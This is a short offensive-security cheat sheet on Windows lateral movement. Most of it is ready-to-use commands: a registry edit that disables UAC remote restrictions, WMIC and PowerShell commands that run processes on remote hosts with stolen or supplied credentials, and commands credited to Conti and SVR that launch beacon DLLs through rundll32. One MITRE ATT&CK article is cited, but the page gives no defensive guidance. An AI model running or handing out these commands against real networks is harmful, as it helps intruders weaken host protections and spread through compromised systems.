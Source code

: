# Lateral Movement

### Disable UAC Remote Restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## WMIC

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

WMI allows users with the required privileges to execute commands in remote hosts without additional tools. Adversaries abuse this feature to move laterally in a compromised network.&#x20;

Adversaries used the following commands to execute commands in a remote host:

```powershell
wmic /node:<remote_ip> /user:<username> /password:<password> process call create cmd.exe /c "<command>"
```

Or, you can do it with PowerShell:

```powershell
Invoke-WMIMethod -class Win32_Process -Name Create -ArgumentList "cmd /c <command>" -ComputerName <remote_hostname>
```

Specific TTP for Conti:

```powershell
wmic /node:victim_ip process call create "rundll32.exe C:/ProgramData/beacon_dll DllRegisterServer"
```

Specific TTP for Russian Foreign Intelligence Service (SVR):

```powershell
wmic /node:<remote_host's_IP> /user:<username> /password:<password> process call create "rundll32 C:\Windows\system32\AclNumsInvertHost.dll AclNumsInvertHost"
```

